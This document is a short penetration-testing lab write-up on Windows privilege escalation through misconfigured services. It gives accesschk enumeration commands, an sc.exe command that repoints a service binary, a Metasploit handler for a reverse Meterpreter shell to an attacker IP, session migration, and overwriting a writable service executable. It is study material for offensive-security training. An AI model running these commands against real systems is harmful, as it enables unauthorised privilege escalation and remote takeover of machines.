




# Weak Service Permissions

It's possible to escalate privileges by exploiting misconfigured services. 

This quick lab specifically covers two misconfigurations:

1. A low privileged user is allowed to change service configuration - for example change the service binary the service launches when it starts
2. A low privileged user can overwrite the binary the service launches when it starts

## 1. Changing Service Configuration

Let's enumerate services with accesschk from SysInternals and look for `SERVICE_ALL_ACCESS` or  `SERVICE_CHANGE_CONFIG` as these privileges allow attackers to modify service configuration:



```text
\\vboxsvr\tools\accesschk.exe /accepteula -ucv "mantvydas" evilsvc
or
\\vboxsvr\tools\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```



Below indicates that the user `mantvydas` has full access to the service:


Let's change the service and point it's binary to our malicious binary that will get as a meterpreter shell:



```text
.\sc.exe config evilsvc binpath= "c:\program.exe"
```




Let's fire up a multihandler in mfsconsole:



```text
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```



...and start the vulnerable service:



```text
.\sc.exe start evilsvc
```



..and enjoy the meterpreter session:



Note that the meterpreter session will die soon since the meterpreter binary program.exe that the vulnerable service `VulnSvc` kicked off, is not a compatible service binary, hence you would need to migrate the the session to another sprocess:



```text
run post/windows/manage/migrate
```



Note how even though the service failed, we were able to migrate to another process before it did:


## 2. Overwriting Service Binary

Check the binary path name:



```text
sc.exe qc evilsvc
```





Let's check file permissions of the binary using a native windows tool icals and look for \(M\)odify or \(F\)ull permissions for `Authenticated Users` or the user you currently have a shell with:



```text
icacls C:\service.exe
```




Since c:\service.exe is \(M\)odifiable by any authenticated user, we can move our malicious binary c:\program.exe to c:\service.exe:



```text
cp C:\program.exe C:\service.exe
ls c:\
```





...and get the meterpreter shell once `sc start evilsvc` is executed. Note that the shell will die if you do not migrate the process same way as mentioned earlier:



